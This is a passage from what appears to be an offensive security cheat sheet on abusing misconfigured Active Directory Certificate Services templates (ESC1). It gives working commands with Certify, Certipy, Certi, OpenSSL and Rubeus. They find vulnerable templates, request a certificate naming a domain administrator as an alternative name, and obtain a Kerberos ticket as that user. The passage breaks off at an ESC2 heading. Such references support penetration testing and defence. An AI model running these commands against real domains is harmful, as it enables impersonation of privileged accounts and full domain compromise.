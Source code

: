     ```ps1
    Certify.exe find /vulnerable
    Certify.exe find /vulnerable /currentuser
    # or
    PS> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
    # or
    certipy 'domain.local'/'user':'password'@'domaincontroller' find -bloodhound
    ```
    
- Use Certify, [Certi](https://github.com/eloypgz/certi) or [Certipy](https://github.com/ly4k/Certipy) to request a Certificate and add an alternative name (user to impersonate)
    
    ```ps1
    # request certificates for the machine account by executing Certify with the "/machine" argument from an elevated command prompt.
    Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
    certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
    certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
    ```
    
- Use OpenSSL and convert the certificate, do not enter a password
    
    ```ps1
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```
    
- Move the cert.pfx to the target machine filesystem and request a TGT for the altname user using Rubeus
    
    ```ps1
    Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx
    ```
    

**WARNING**: These certificates will still be usable even if the user or computer resets their password!

**NOTE**: Look for **EDITF_ATTRIBUTESUBJECTALTNAME2**, **CT\_FLAG\_ENROLLEE\_SUPPLIES\_SUBJECT**, **ManageCA** flags, and NTLM Relay to AD CS HTTP Endpoints.

### ESC2 - Misconfigured Certificate Templates

Requirements:
